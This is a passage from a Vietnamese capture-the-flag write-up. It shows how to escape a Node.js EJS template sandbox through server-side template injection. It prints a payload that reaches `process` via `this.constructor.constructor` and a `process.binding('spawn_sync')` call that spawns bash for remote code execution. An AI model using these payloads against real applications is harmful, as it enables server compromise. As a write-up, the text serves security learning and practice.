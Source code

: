 ![image](https://user-images.githubusercontent.com/75429369/179693128-a747e0ea-54dc-4129-b324-73a613b1da59.png)

Có thể dùng `process` thay thế cho `require` để dùng `fs` và đọc file, khá hợp lí trong ngữ cảnh bài này vì khi kiểm tra thử trên web thì `process` hoàn toàn đã được define

```javascript
<%= this.constructor.constructor(/return process/.source)()%>
```

![image](https://user-images.githubusercontent.com/75429369/179693610-4f04e1a6-f7dd-4c9a-bec1-dc653f7efde0.png)

Tới đây tưởng chừng mọi chuyện đã êm trơn nhưng không, đọc lại Dockerfile thì thấy tên của file flag được đặt dựa trên $FLAG_FILENAME mà ta chưa biết là gì :)

```Dockerfile
# syntax=docker/dockerfile:1

FROM node:18-alpine

ENV NODE_ENV=production

WORKDIR /app

COPY ["package.json", "package-lock.json*", "./"]

RUN npm install --production

COPY index.js index.js

COPY Dockerfile Dockerfile

COPY public public

ARG FLAG_FILENAME

COPY flag.txt $FLAG_FILENAME

EXPOSE 3000

CMD ["node", "index.js", "server"]
```

Vậy chỉ còn hướng duy nhất là RCE.

## RCE RCE RCE RCE

Tiếp tục dựa trên link ở trên, ta được thông tin sau:

![image](https://user-images.githubusercontent.com/75429369/179694331-e9a2ba1c-3b01-486d-b53f-02a6ae52bfd7.png)

Ta có thể sử dụng `binding` để thay thế cho `child_process` như thường thấy vì `require` không thể dùng được, và nếu như mình không sai và dựa trên hình trên thì bản chất của `child_process` nó cũng dựa trên thằng `process.binding` này.

Tới đây, khi tiếp tục tìm thêm thông tin về hướng làm này thì mình xem được write up [này](https://blog.ssrf.kr/41) . Trong đó có bài `Safe Evaluator` có cách tiếp cận và hướng làm y hệt, mình lấy tạm payload người ta và về debug :)).

```javascript
process.binding('spawn_sync').spawn({file: '/bin/bash',args: ['bash','-c','ls'],stdio: [{type: 'pipe',readable: 1}]})
```

![image](https://user-images.githubusercontent.com/75429369/179696473-9937724a-4b75-4cc0-9ead-51792b8f69bf.png)

`output` ra null vì `pipe` hiện tại có thể ghi được nên ta thêm thuộc tính `writable` nữa là sẽ có output
